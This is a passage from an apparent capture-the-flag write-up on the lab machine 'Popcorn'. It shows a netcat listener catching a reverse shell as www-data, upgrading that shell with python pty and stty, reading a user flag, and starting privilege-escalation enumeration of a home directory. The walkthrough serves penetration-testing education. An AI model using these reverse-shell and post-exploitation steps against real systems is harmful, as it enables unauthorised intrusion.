 At `nc`:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.6.
Ncat: Connection from 10.10.10.6:33054.
bash: no job control in this shell
www-data@popcorn:/var/www/torrent/upload$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

I’ll upgrade the shell:

```

www-data@popcorn:/var/www/torrent/upload$ python -c 'import pty;pty.spawn("bash")'
www-data@popcorn:/var/www/torrent/upload$ ^Z
[1]+  Stopped                 nc -lnvp 443
root@kali# stty raw -echo
root@kali# fg
                                                       reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@popcorn:/var/www/torrent/upload$

```

And this user can actually grab `user.txt`:

```

www-data@popcorn:/home/george$ cat user.txt
5e36a919************************

```

## Priv: www-data –> root

### Enumeration

Looking around the only home directory, `/home/george`, I’ll notice the file `.cache/motd.legal-displayed`:

```

www-data@popcorn:/home/george$ find . -type f -ls
    76    4 -rw-r--r--   1 george   george        220 Mar 17  2017 ./.bash_logout
    82    4 -rw-r--r--   1 george   george       3180 Mar 17  2017 ./.bashrc
 42885  832 -rw-r--r--   1 george   george     848727 Mar 17  2017 ./torrenthoster.zip
 42883    0 -rw-r--r--   1 george   george          0 Mar 17  2017 ./.cache/motd.legal-displayed
 42884    0 -rw-r--r--   1 george   george          0 Mar 17  2017 ./.sudo_as_admin_successful
  2210    4 -rw-r--r--   1 george   george         33 Mar 17  2017 ./user.txt
 43648    4 -rw-------   1 root     root           19 May  5  2017 ./.nano_history
 44232    4 -rw-------   1 root     root         1571 Mar 17  2017 ./.mysql_history
   499    4 -rw-------   1 root     root         2769 May  5  2017 ./.bash_history
   107    4 -rw-r--r--   1 george   george        675 Mar 17  2017 ./.profile

```

